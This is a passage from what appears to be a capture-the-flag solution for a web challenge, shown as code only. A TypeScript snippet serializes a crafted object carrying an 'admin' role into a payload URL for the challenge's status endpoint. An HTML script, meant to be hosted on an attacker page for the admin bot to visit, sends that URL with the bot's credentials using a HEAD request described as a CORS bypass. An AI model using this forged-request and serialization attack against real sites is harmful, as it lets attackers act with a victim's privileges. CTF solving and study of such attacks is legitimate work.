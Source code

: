 ```ts
        note,
        UUID,
        "admin",
    )
}
let vio = "Vio" + serializer.serialize(stopYouViolatedTheLaw)

console.log(vio)
console.log(serializer.deserialize(vio))

Deno.writeFileSync("payload.txt", new TextEncoder().encode(`https://vegsoda-web.2023.ctfcompetition.com/status?type=Post&content=${encodeURIComponent(vio)}`))
console.log("Payload written.")
```

```html
<!-- put this on a site with https -->
<!-- and direct the admin bot to it -->
<script>
  fetch("<above payload>", {
    method: "HEAD", // cors bypass go brrrr
    credentials: 'include',
  });
</script>
```

